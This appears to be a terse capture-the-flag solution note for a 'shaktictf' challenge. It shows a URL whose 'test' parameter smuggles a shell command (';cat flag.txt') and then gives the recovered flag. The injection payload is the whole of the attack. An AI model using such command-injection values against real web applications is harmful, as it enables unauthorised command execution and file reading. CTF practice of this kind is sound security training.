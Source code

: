 URL injection:

`ch25588158988.ch.eng.run/?test=;cat flag.txt`

`shaktictf{finally_you found_the_flag_hehehheh!}`
